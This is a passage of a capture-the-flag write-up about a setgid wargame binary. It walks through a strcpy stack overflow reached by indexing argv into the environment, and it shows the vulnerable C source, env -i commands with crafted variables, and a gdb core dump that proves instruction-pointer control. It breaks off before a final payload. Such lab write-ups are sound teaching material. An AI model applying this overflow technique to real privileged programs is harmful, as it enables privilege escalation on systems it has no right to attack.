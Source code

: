 ```bash
[*] Stopped process '/var/challenge/level8/8' (pid 1897233)
```

## Level 10

Inspecting the contents of `/var/challenge/level9`:

```bash
icyfire@razor level9 → ls -lha /var/challenge/level9
total 28K
drwxr-x---  2 root lev9  4.0K Nov  6 19:47 .
drwxr-xr-x 16 root sudo  4.0K Aug 27  2020 ..
-rwxr-sr-x  1 root lev10  16K Oct 24 01:02 9
-rw-r--r--  1 root lev9   366 Oct 24 01:02 9.c
```

Examining the program `9.c`:

```c
if ((getegid() != getgid()) && argc > 1) {
    exit(1);
}

if (strchr(argv[4], 0x90)) exit(2);
if (strchr(argv[4], 0x31)) exit(2);

strcpy(buf, argv[4]);
```

Here we can see that program exits if an effective guid is set and if any argument is supplied to it. It then proceeds to copy `argv[4]` to a buffer if there are no special characters in it. Since no arguments are provided, it'll overflow and copy a value from the environment into the buffer. `argv[0]` consists of the path of the program, `argv[1]` will overflow into the environment and thus `argv[4]` will correspond to the second value in the environment. We can use the `env -i` command to run the program with blank environment.

Next we can enable core dumps and start the program.

```bash
icyfire@razor level9 → ulimit -c unlimited

icyfire@razor level9 → env -i env1=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA env2=BBBBBBBBBBBBBBBBBBBBBBBB env3=CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC ./9
Segmentation fault (core dumped)
05:02:40 icyfire@razor level9 → gdb -c core
[New LWP 1466415]
Core was generated by `./9'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x43434343 in ?? ()
(gdb) x/1i $eip
=> 0x43434343:	Cannot access memory at address 0x43434343
```

We can see that the instruction pointer got overwritten with the value from the third environment value that we supplied. Changing the second environment variable with a unique input we get:
